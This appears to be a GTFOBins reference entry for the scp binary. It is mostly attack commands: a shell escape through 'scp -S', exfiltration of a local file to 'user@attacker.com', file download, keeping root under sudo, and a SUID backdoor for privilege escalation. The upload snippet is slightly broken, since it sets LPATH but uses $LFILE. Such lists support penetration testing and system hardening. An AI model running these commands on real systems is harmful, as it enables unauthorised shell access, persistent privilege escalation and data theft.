 # GTFOBin: scp

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
TF=$(mktemp)
echo 'sh 0<&2 1>&2' > $TF
chmod +x "$TF"
scp -S $TF x y:
```

## File upload

It can exfiltrate files on the network.

Send local file to a SSH server.

```
RPATH=user@attacker.com:~/file_to_save
LPATH=file_to_send
scp $LFILE $RPATH
```

## File download

It can download remote files.

Fetch a remote file from a SSH server.

```
RPATH=user@attacker.com:~/file_to_get
LFILE=file_to_save
scp $RPATH $LFILE
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
TF=$(mktemp)
echo 'sh 0<&2 1>&2' > $TF
chmod +x "$TF"
sudo scp -S $TF x y:
```

## Limited SUID

If the binary has the SUID bit set, it may be abused to access the file system, escalate or maintain access with elevated privileges working as a SUID backdoor. If it is used to run commands (e.g., via `system()`-like invocations) it only works on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which scp) .

TF=$(mktemp)
echo 'sh 0<&2 1>&2' > $TF
chmod +x "$TF"
./scp -S $TF a b:
```